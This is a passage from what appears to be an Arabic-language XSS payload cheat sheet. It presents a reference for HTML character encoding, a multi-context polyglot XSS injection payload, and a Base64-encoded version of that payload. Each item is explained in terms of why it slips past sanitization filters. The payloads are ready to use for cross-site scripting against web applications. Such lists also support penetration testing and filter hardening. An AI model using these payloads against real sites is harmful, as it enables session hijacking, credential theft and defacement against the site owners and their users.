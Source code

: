**الرابط:**
```
https://example.com/utils/charref.htm
```

**لماذا يعمل؟**
- يوفر ترميزات HTML (مثل `&lt;` لـ `<`).
- يساعد في إنشاء حمولات XSS مشفرة.
- مفيد لتجاوز مرشحات التعقيم.

**الخلاصة:**
جدول كيانات HTML باستخدام الرابط أعلاه فعال لأنه يساعد في ترميز الأحرف لتجاوز المرشحات.

---

## 5. حقن HTML متعدد الحالات (Multi-Case HTML Injection)
{ #XSS_Idea_for_script_tag / #XSS_with_out_alret  }
**الشرح البسيط:**
يُستخدم كحمولة شاملة لزيادة معدل نجاح XSS في سياقات HTML وJavaScript. يعمل في جميع الحالات مع دعم التعقيم البسيط.

**الكود:**
```
</Script/"'--><Body /Autofocus /OnFocus = confirm`1` <!--> 
```

**لماذا يعمل؟**
- يغلق علامات `<script>` وخصائص HTML.
- يستخدم `confirm` بدلاً من `alert`.
- المسافات و`-->` يتجاوزان التعقيم البسيط.

**الخلاصة:**
حقن متعدد الحالات باستخدام الكود أعلاه فعال لأنه يعمل في سياقات متعددة ويتجاوز التعقيم.

---

## 6. حقن HTML متعدد الحالات - Base64 (Multi-Case HTML Injection - Base64)
{ #XSS_ecoded_payload }
**الشرح البسيط:**
يُستخدم في حقول الإدخال التي تتوقع Base64، كحمولة شاملة لـ XSS في سياقات HTML وJavaScript.

**الكود:**
```
PC9TY3JpcHQvIictLT48Qm9keSAvQXV0b2ZvY3VzIC9PbkZvY3VzID0gY29uZmlybWAxYCA8IS0tPg==
```

**لماذا يعمل؟**
- يُرمز الكود السابق (`</Script/"'--><Body /Autofocus /OnFocus = confirm`1` <!-->`) إلى Base64.
- يُفك الترميز إلى HTML صالح عند المعالجة.
- يتجاوز مرشحات Base64 غير المُنظفة.

**الخلاصة:**
حقن Base64 باستخدام الكود أعلاه فعال لأنه يُرمز XSS إلى Base64 لتجاوز المرشحات.

---
